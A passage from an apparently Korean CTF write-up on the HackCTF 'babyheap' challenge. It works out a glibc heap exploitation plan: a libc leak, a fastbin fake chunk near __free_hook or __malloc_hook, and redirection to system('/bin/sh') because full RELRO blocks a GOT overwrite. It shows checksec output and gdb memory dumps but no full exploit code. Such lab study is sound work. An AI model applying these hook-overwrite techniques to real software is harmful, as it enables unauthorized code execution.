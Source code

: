 
여기까지 보고 대충 생각해보면 우선 GOT를 이용하여 libc를 leak하고, `system()`의 주소를 구한 후 `free()`의 GOT를 `system()`의 주소로 덮고 `"/bin/sh"`가 저장된 청크를 free시키면 쉘을 획득할 수 있을 것 같다. 그런데 보호기법을 확인해 보면 full relro가 걸려 있어서 GOT 영역에 w 권한이 없다. 따라서 GOT overwrite가 불가능하다.

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
gdb-peda$ vmmap
Start              End                Perm	Name
...
0x00601000         0x00602000         r--p	/home/chykor12/HackCTF/babyheap
...
```

그렇다면 malloc hook이나 free hook을 조작하는 방법을 생각해볼 수 있다.

> glibc malloc에는 hook이라는 기능이 있는데, `malloc()`, `free()`, `realloc()`이 호출되었을 때 hook에 값이 등록되어 있으면 그 주소로 점프하여 코드를 실행한다.

이를 이용하면, free hook에 fake chunk를 할당받아서 `system()`의 주소를 등록한 뒤에, `"/bin/sh"`가 저장되어 있는 청크를 `free()`해서 쉘을 획득하는 방법이 있다. free hook 주변에 fake chunk를 만들 만한 곳이 있는지 살펴보자.

```bash
gdb-peda$ x/20gx 0x7ffff7dd37a8-0x80
0x7ffff7dd3728 <proc_file_chain_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3738:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3748 <dealloc_buffers>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3758 <_IO_list_all_stamp>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3768 <list_all_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3778 <_IO_stdfile_2_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3788 <_IO_stdfile_1_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd3798 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37a8 <__free_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37b8 <next_to_use>:	0x0000000000000000	0x0000000000000000
```

fake chunk를 할당받으려면 fastbin의 size check를 통과할 수 있어야 하는데, 모든 메모리가 0으로 채워져 있어서 어려울 것 같다. malloc hook 주변의 메모리도 한번 살펴보자.

```bash
gdb-peda$ print &__malloc_hook
$132 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/20gx 0x7ffff7dd1b10-0x80
0x7ffff7dd1a90 <_IO_wide_data_0+208>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1aa0 <_IO_wide_data_0+224>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ab0 <_IO_wide_data_0+240>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ac0 <_IO_wide_data_0+256>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ad0 <_IO_wide_data_0+272>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20	0x00007ffff7a92a00
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7a92830	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```
